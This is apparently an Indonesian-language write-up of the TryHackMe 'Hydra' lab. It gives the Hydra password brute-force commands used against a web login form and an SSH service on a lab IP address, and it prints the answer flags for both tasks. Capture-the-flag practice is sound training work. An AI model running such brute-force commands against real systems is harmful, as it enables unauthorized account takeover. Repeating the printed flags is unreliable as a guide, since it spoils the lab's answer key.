 # Solusi - Hydra
- TryHackMe Room: [https://tryhackme.com/room/hydra](https://tryhackme.com/room/hydra)
- IP Machine: 10.10.93.97

## Pertanyaan/Tugas:
- Buka url http://10.10.93.97 di browser, setelah dibuka kita langsung diarahkan ke halaman login
- Lakukan brute force untuk menemukan password dari user molly. Gunakan baris perintah `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.93.97 http-post-form "/login:username=^USER^&password=^PASS^:incorrect"`
- Gunakan username dan password diatas untuk melakukan login, setelah login kita berhasil mendapatkan flag1

Pertanyaan: Use Hydra to bruteforce molly's web password. What is flag 1?
Jawaban:
```sh
THM{2673a7dd116de68e85c48ec0b1f2612e}
```

- Lakukan brute force untuk menemukan password SSH dari user molly. Gunakan baris perintah `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.93.97 ssh`

- Gunakan username dan password diatas untuk mengakses SSH, setelah berhasil masuk kita berhasil menemukan file flag2.txt. Buka file tersebut menjawab pertanyaan berikutnya

Pertanyaan: Use Hydra to bruteforce molly's SSH password. What is flag 2?
Jawaban:
```sh
THM{c8eeb0468febbadea859baeb33b2541b}
```